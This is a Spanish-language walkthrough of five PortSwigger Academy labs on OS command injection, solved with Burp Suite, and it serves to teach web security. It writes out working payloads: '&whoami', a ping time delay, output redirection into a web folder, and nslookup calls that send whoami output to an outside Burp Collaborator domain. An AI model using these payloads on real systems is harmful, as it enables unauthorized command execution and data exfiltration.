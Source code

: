 ```yaml
---
layout: default
title: "OS command injection - PortSwigger"
permalink: /command-injection-ps/
---
```


# OS command injection

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

## Indice



## 1. Lab: OS command injection, simple case

```text
Esta práctica de laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock de productos.

La aplicación ejecuta un comando de shell que contiene los ID de tienda y producto proporcionados por el usuario, y devuelve la salida sin procesar del comando en su respuesta.

Para resolver la práctica de laboratorio, ejecute el whoamicomando para determinar el nombre del usuario actual.
```

Como nos dice la informacion, buscaremos un articulo cualquiera, y le damos clic en el boton **Check stock** y lo interceptamos con el burpsuite y lo enviamos al **Repeater**.

![](img1.png)

Como podemos ver, todo ocurre de manera normal, ahora intentaremos ejecutar comandos agregandole **& whoami**.

![U](img2.png)

Si lo enviamos así no va a obtener nada, ya que el **&** lo esta considerando como el cierre del parametro y el inicio de otro asi que lo que haremos será seleccion todo el parametro **1&whoami** y encodearlo con las teclas **Ctrl + U**.

![](img3.png)

Como podemos ver, si ejecutó el comando **whoami**, y si vamos a el sitio web, nos damos cuenta que si figura como resuelto.

![](img4.png)

## 2. Lab: Blind OS command injection with time delays

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para provocar un retraso de 10 segundos.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.

![](img5.png)

E interceptamos el paquete con burpsuite y lo enviamos al reapiter.

![](img6.png)

Como podemos ver, no obtener ninguna respuesta al realizar el comando, ahora intentaremos generar un retardo en la solicitud agregandole un **ping -c 10 127.0.0.1**.

![](img7.png)

Lo cual logró generar el retrazo, ya que generamos el comando ping dentro de los caracteres **''$(''** y **'')'** que sirven para ejecutar strings dentro de strings.

![](img8.png)

## 3. Lab: Blind OS command injection with output redirection  

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puede utilizar la redirección de salida para capturar la salida del comando. Hay una carpeta en la que se puede escribir en:

/var/www/images/

La aplicación sirve las imágenes para el catálogo de productos desde esta ubicación. Puede redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de la imagen para recuperar el contenido del archivo.

Para resolver el laboratorio, ejecute el whoamicomando y recupere el resultado.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.

![](img9.png)

E interceptamos el paquete con burpsuite y lo enviamos al reapiter.

![](img10.png)

Como en el ejemplo anterior, no devuelve ningun resultado lo que haremos será ejecutar el comando **whoami** y lo enviaremos a la ruta **/var/www/images/**.

```bash
$(whoami > /var/www/images/whoami.txt) #Con url encode (seleccionar texto y Ctrl + u)
```

Lo cual de deberia mostrar en la url:

```bash
https://acfb1fb31f59b03d80493c9e006000ac.web-security-academy.net/images/whoami.txt
```

Ahora realizaremos esto en el repeater en el parametro **message** y lo enviamos.

![](img11.png)

Y ahora accedemos por navegador a la url para revisar que el comando de ejecutó correctamente:

![](img12.png)

Ahora si vamos a la pagina principal del laboratorio vemos que se realizó correctamente.

![](img13.png)

## 4. Lab: Blind OS command injection with out-of-band interaction

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asincrónica y no tiene ningún efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para emitir una búsqueda de DNS en Burp Collaborator.
```

Entonces, necesitamo buscar la seccion de **Burp Collaborator**, para ello nos ubicamos en la pestaña **Burp** y en la opcion **Burp Collaborator Client**.  y le damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net
```

Ahora, vamos a interceptar el paquete del feedback y lo enviamos al repeater editando el parametro **message** por lo siguiente.

```bash
$(nslookup z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net)
```

Como se ve en la siguiente imagen:

![](img14.png)

Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.

![](img15.png)

Ahora verificamos en el home del laboratorio si lo completamos.

![](img16.png)

## 5. Lab: Blind OS command injection with out-of-band data exfiltration

Como en el laboratorio entramos al **Burp Collaborator Client**, y damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net
```

Ahora interceptamos el paquete del feedback como en el ejemplo anterior y lo enviamos al repeater y para este caso, debemos obtener la salida de un comando así que anidaremos dos comandos usando esta vez el caracter **`** (tilde invertida) y el payload será de la siguiente manera.

```bash
$(nslookup `whoami`.8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net)
```

Lo cual en el intruder quedaria de la siguiente manera y lo enviamos.

![](img17.png)

Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.

![](img18.png)

Y como podemos ver la consulta dns se hizo a **peter-xR6lKE.8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net**. Entonces la respuesta del comando whoami sería.

```bash
peter-xR6lKE
```

Ahora verificamos en el home del laboratorio si lo completamos y nos pide que ingresemos el valor que obtuvimos.

![](img19.png)

Y luego de ello podemos ver que tenemos el laboratorio resuelto al fin :D

![](img20.png)

## CONCLUSION

Estos ejercicios son un poco mas sencillos pero nos sirve para aprender las diferentes formas en la que se puede presentar un Command Injection, que aunque parezca poco todavia hay sitios webs que los usan, y obviamente la mayoria de estos son de modo a ciegas.



